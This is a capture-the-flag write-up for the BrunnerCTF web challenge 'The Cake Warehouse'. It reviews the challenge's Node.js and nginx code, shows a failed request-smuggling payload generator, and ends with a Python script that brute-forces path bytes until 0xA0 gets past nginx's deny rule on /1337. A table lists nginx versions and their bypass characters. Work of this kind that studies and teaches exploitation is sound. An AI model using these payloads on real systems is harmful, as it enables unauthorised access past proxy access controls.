




# Overview

It is a web application called **The Cake Warehouse**.  
It consists of two main services: a `Node.js` server and an `nginx` server.  
The application serves multiple `HTML` pages representing different types of cakes, with static assets and separate `Docker` configurations for deployment.

### Structure 
```plaintext
WEB_The_Cake_Warehouse/
├── delivery-system/
│   ├── public/
│   │   ├── index.html
│   │   └── style.css
│   ├── Dockerfile
│   ├── package.json
│   └── server.js
├── nginx/
│   ├── html/
│   │   └── forbidden.html
│   ├── default.conf
│   └── Dockerfile
├── warehouse/
│   ├── public/
│   │   ├── cheesecake.html
│   │   ├── chocolatecake.html
│   │   ├── flagcake.html
│   │   ├── index.html
│   │   ├── redvelvetcake.html
│   │   └── vanillacake.html
│   ├── Dockerfile
│   ├── package.json
│   └── server.js
└── docker-compose.yml
```
### Code Review 
#### Main Logic : 
The **Delivery system** handles an HTTP request at the `/deliver` endpoint, retrieves the token parameter from the GET request, validates it, converts it to a path, and then requests the warehouse backend over a raw TCP connection.
```js
const express = require('express');
const path = require('path');
const app = express();

app.use(express.static(path.join(__dirname, 'public')));

app.get('/', (req, res) => {
  res.sendFile(path.join(__dirname, 'public', 'index.html'));
});

const net = require('net');

function calculateChecksum(checksum) {
  const bytes = Buffer.from(checksum, 'hex');
  return bytes.reduce((sum, byte) => (sum + byte) % 256, 0).toString(16).padStart(2, '0');
}

app.get('/deliver', (req, res) => {
  const token = req.query.token;
  
  if (!token) {
    return res.status(400).send(`
      <!DOCTYPE html>
      <html>
      <head><title>Error</title><link rel="stylesheet" href="/style.css"></head>
      <body>
        <div class="container">
          <h1>Delivery Failed</h1>
          <p>Missing delivery token.<p>
        </div>
      </body>
      </html>
    `);
  }

  const [pathHex, checksum] = token.split(':');
  if (calculateChecksum(pathHex) !== checksum) {
    return res.status(403).send(`
      <!DOCTYPE html>
      <html>
      <head><title>Error</title><link rel="stylesheet" href="/style.css"></head>
      <body>
        <div class="container">
          <h1>Delivery Failed</h1>
          <p>Invalid checksum.<p>
        </div>
      </body>
      </html>
    `);
  }

  let pathBytes;
  try {
    pathBytes = Buffer.from(token, 'hex');
  } catch (e) {
    return res.status(400).send('Invalid token format - must be hex');
  }

  const socket = net.createConnection(80, 'nginx', () => {
    const request = Buffer.concat([
      Buffer.from('GET ', 'utf8'),
      pathBytes,
      Buffer.from(' HTTP/1.1\r\n', 'utf8'),
      Buffer.from(`Host: warehouse\r\n`, 'utf8'),
      Buffer.from('Connection: close\r\n\r\n', 'utf8')
    ]);
    console.log('Connecting to warehouse with path:', pathBytes.toString('utf8'));
    socket.write(request);
  });

  let responseData = Buffer.alloc(0);
  socket.on('data', (data) => {
    responseData = Buffer.concat([responseData, data]);
  });

  socket.on('end', () => {
    const body = responseData.toString().split('\r\n\r\n')[1] || '';
    res.send(`
      <!DOCTYPE html>
      <html>
      <head><title>Delivery Result</title><link rel="stylesheet" href="/style.css"></head>
      <body>
        <div class="container">
          <h1>Delivery Report</h1>
          <div class="report">${body}</div>
          <p><a href="/">Back to start</a></p>
        </div>
      </body>
      </html>
    `);
  });

  socket.on('error', (err) => {
    res.status(500).send(`Delivery failed: ${err.message}`);
  });
});

app.listen(3000, '0.0.0.0', () => {
  console.log('Delivery system running on port 3000');
});

```

- Token validation
   - The `token` is expected in the format `pathHex:checksum`.
   - The checksum is calculated by summing the bytes of `pathHex` modulo 256.
   - If the checksum is invalid or missing, the request is rejected.

- Path decoding
   - The path portion of the token is hex-decoded into raw bytes.
   - This decoded path is used to construct a raw HTTP request to the warehouse backend.

- Delivery request
   - A TCP connection is made to the warehouse (`nginx` host, port 80).
   - A GET request is sent using the decoded path and the host header `warehouse`.
   - The response from the warehouse is collected and sent back to the client wrapped in an HTML template.


#### Warehouse backend:


```js
const express = require('express');
const path = require('path');
const app = express();

app.get('/', (req, res) => {
  res.sendFile(path.join(__dirname, 'public', 'index.html'));
});

app.get('/42', (req, res) => {
  res.sendFile(path.join(__dirname, 'public', 'chocolatecake.html'));
});

app.get('/101', (req, res) => {
  res.sendFile(path.join(__dirname, 'public', 'vanillacake.html'));
});

app.get('/404', (req, res) => {
  res.sendFile(path.join(__dirname, 'public', 'redvelvetcake.html'));
});

app.get('/500', (req, res) => {
  res.sendFile(path.join(__dirname, 'public', 'cheesecake.html'));
});

app.get('/1337', (req, res) => {
  if (req.path == '/1337') {
    res.sendFile(path.join(__dirname, 'public', 'flagcake.html'));
  } else {
    res.status(403).send(`
      <div class="error">
        <h1>REQUEST REJECTED</h1>
        <p>Invalid delivery token format</p>
        <p>Our system detected suspicious activity</p>
      </div>
    `);
  }
});

app.listen(3001, '0.0.0.0', () => {
  console.log('Warehouse system running on port 3001');
});

```

* Handles standard GET requests to serve different `cake` pages at fixed routes (/42, /101, /404, /500). 
* The flag route `/1337` is protected by `nginx` rules (`deny all`).
* Even if accessed directly, the warehouse checks the request path and rejects malformed requests with a 403 page.
#### Nginx reverse proxy:

```js
server {
    listen 80;

    location = /1337 {
        deny all;
    }

    location = /1337/ {
        deny all;
    }

    error_page 403 /forbidden.html;

    location = /forbidden.html {
        root /usr/share/nginx/html;
    }

    location / {
        proxy_pass http://warehouse:3001;
        proxy_http_version 1.1;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}

```
<br>

* Proxies all requests to the warehouse backend except `/1337`, which is blocked.
* Ensures that the warehouse cannot be accessed directly on /1337 via HTTP.
* Forwards standard headers like `Host`, `X-Real-IP`, and `X-Forwarded-For`.

### Exploitation : 

#### First Approach: 
My first idea was to try **HTTP request smuggling**, since my instincts pointed me in that direction when I noticed the Nginx reverse proxy blocking every request I sent to `/1337`.  
  

When I tried sending a request smuggling payload, I observed some interesting behavior:  
<br>
 
<br>
The server appeared to process two requests at the same time—one returned a **403**, while the other was successfully rendered. This behavior was intriguing, but it didn’t immediately help me get closer to the flag.  

I spent the entire day experimenting with techniques outlined by **James Kettle** and reading the article on [http1mustdie.com](https://http1mustdie.com). I highly recommend both the article and **James Kettle**’s video with **Off-by-One Security** :  [Youtube Link](https://www.youtube.com/watch?v=B7p8dIB7bFg) for anyone interested in HTTP request smuggling.  

I meticulously crafted many payloads, like the following: 

```js
const payload = `/404 HTTP/1.1\r\nHost: warehouse\r\nTransfer-Encoding: chunked\r\nConnection: keep-alive\r\n\r\n0\r\n\r\nGET /1337 HTTP/1.1\r\nHost: warehouse\r\nContent-Length: 0\r\n\r\n`;
const hex = Buffer.from(payload, 'utf8').toString('hex');
function calculateChecksum(hexString) {
  const bytes = Buffer.from(hexString, 'hex');
  return bytes.reduce((sum, byte) => (sum + byte) % 256, 0)
              .toString(16)
              .padStart(2, '0');
}
const checksum = calculateChecksum(hex);
console.log(`${hex}:${checksum}`);
```
Which resulted in this : 
```hex
2f34303420485454502f312e310d0a486f73743a2077617265686f7573650d0a5472616e736665722d456e636f64696e673a206368756e6b65640d0a436f6e6e656374696f6e3a206b6565702d616c6976650d0a0d0a300d0a0d0a474554202f3133333720485454502f312e310d0a486f73743a2077617265686f7573650d0a436f6e74656e742d4c656e6774683a20300d0a0d0a:db
```

Despite all my efforts, **Nginx blocked every attempt at HTTP request smuggling**, and after crafting so many payloads, I realized that what I was doing was actually **HTTP tunneling**, making request smuggling impossible. I was left feeling frustrated and unsure of the next step.

#### Second Approach:

After taking a two-hour break and going out with friends, I suddenly remembered a past CTF web challenge where the vulnerability was related to **parsing differentials**. The idea immediately popped into my head, and as soon as I returned home, I started searching for any articles or resources discussing **parsing differentials between Nginx and Node.js**.  


### TL;DR – Parsing Differentials
Parsing differentials occur when two systems interpret the same input differently. In web security, this can lead to bypasses if one layer (e.g., a reverse proxy) treats a request differently than the backend server. Essentially, the proxy may block a request while the backend interprets it in a way that still allows malicious input.  

### Example
Consider a situation where a backend in **Go** treats the Unicode character `ſ` (Latin small letter long s, U+017F) as a normal `s`, but a **Flask** (Python) backend treats it as a completely different character:  

```python
# Flask Example
print("ſ" == "s")  # Output: False
```
```go
// Go Example
fmt.Println('ſ' == 's') // Output: True
```

If a proxy interprets the input differently from the backend—in this case, Nginx versus Node.js—a request that appears blocked by the proxy might still reach the delivery system and be processed in a way that bypasses its checks. This behavior is exactly what **parsing differentials** describe and it opened a new line of thought beyond request smuggling.  
> Found this article not so long time ago , really advise you check it out: [Unexpected Security Footguns in Go’s Parsers](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

After realizing this, I started considering how I could leverage these parsing differences in the delivery system. Since `Nginx` and `Node.js` may handle certain characters, encodings, or byte sequences differently, there was a potential way to bypass the proxy’s restrictions and access the protected `/1337` route. This insight shifted my focus away from standard request smuggling attempts and toward exploiting subtle inconsistencies between how `Nginx` and the `Node.js` delivery system interpreted requests.

And voilà—I found this article that directly discussed HTTP parser inconsistencies and their exploitation: [Exploiting HTTP Parser Inconsistencies](https://blog.bugport.net/exploiting-http-parsers-inconsistencies)  




Below is a table from the article correlating **Nginx versions** with characters that can potentially lead to bypassing URI ACL rules when using Node.js as the backend:

| Nginx Version | Node.js Bypass Characters |
|---------------|--------------------------|
| 1.22.0        | \xA0                     |
| 1.21.6        | \xA0                     |
| 1.20.2        | \xA0, \x09, \x0C         |
| 1.18.0        | \xA0, \x09, \x0C         |
| 1.16.1        | \xA0, \x09, \x0C         |

I tried using this approach with my own example to bypass the delivery system and reach the `/1337` route to get the flag. However, it didn’t work and resulted in the following response:
> Cannot GET /404%C3%82




This is when my teammate **M0ngi** had an idea to bypass the delivery system by systematically testing byte variations appended to the path.  

He wrote a script that automates the process of generating tokens and sending requests to the `/deliver` endpoint. Here’s a snippet of the code:  

```python
import requests

def path_to_checksum(bytes_path: bytes) -> str:
    s = sum(bytes_path) % 256
    hs = hex(s)[2:].rjust(2, '0')
    return bytes_path.hex() + ':' + hs

for i in range(1,256):
    
    PATH = b"/1337"+bytes.fromhex(hex(i)[2:].rjust(2, '0'))
    resp = requests.get("https://the-cake-warehouse-d625728bd5a00f1f.challs.brunnerne.xyz/deliver?token=" + path_to_checksum(PATH))
    if 'class="report">404</div>' not in resp.text and '<h1>400 Bad Reques' not in resp.text and 'Cannot GET ' not in resp.text and 'is delivery is forbidde' not in resp.text:
        print(resp.text)
        print(i, hex(i))
```

The script works as follows:

**Importing requests:**
   The `requests` library is imported to easily send HTTP requests from Python. This allows automated interaction with the delivery system.

**Path to checksum function:**  
  A helper function (e.g., `path_to_checksum`) converts a raw path into the token format expected by the `/deliver` endpoint. It calculates the checksum of the byte path modulo 256, formats it as a hexadecimal string, and returns the combined token as `hex_encoded_path:checksum`.

 **Brute-forcing loop:**  
  The script iterates over possible byte values (1–255), appending each byte to the `/1337` path. For each variation, it generates the token using the helper function and sends a GET request to the delivery system.

 **Filtering responses:**  
  The script checks each response for common error messages such as `404`, `400 Bad Request`, `Cannot GET`, or delivery forbidden messages. Only responses that do **not** contain these errors are printed, helping to quickly identify a potential successful request.

This approach essentially tests all single-byte variations at the end of the path to see if any of them bypass the proxy and reach the protected `/1337` route.

After running the brute-forcing script for some time, I finally got this result:

```html
<!DOCTYPE html>
<html>
<head><title>Delivery Result</title><link rel="stylesheet" href="/style.css"></head>
<body>
  <div class="container">
    <h1>Delivery Report</h1>
    <div class="report"><!DOCTYPE html>
<html>
<body>
    <h1>Flag Cake Delivery</h1>
    <p>Your flag cake is on its way!</p>
    <p>Delivery ID: 1337</p>
    <p>Status: DELIVERED</p>
    <p>Delivery token: <code>brunner{ng1Nx_P4tH_N0rm4lIz4t10n_Ch3ck5uM_4ND_55RF?!}</code></p>
    <p>Thank you for using our delivery service!</p>
</body>
</html>
</div>
    <p><a href="/">Back to start</a></p>
  </div>
</body>
</html>
160 0xa0
```


And just like that—it worked! 

The reason it worked is that appending the byte `0xA0` caused **Nginx** to interpret the path differently, but **Node.js** performed its own **path normalization** and interpreted the request as `/1337`. This subtle difference between the proxy and backend allowed the `delivery system` to process the request and return the flag.

**Flag:** `brunner{ng1Nx_P4tH_N0rm4lIz4t10n_Ch3ck5uM_4ND_55RF?!}`  

A huge thanks to **M0ngi** for coming up with the idea of bruteforcing, it really saved us after spending two whole days thinking it was **HTTP request smuggling**, only to discover it was really about parsing differentials. Sometimes the simplest things hide in plain sight! 😅  

Also, a big thanks to the **BrunnerCTF authors** for creating such a high-quality and engaging challenge—it made the hunt really enjoyable. 

I’m proud to say that our team ranked **4th place overall** and **3rd place internationally**! Special shoutout to my Tunisian merger team **Choufli 7al**, and big kudos to all of my teammates for their hard work and collaboration. 

Thanks for reading this writeup, I hope you liked it!  

`#BrunnerCTF` `#WebSecurity` `#NodeJS` `#Nginx` `#ParsingDifferentials` `#BruteForce`

#### *— Written by d3dn0v4*
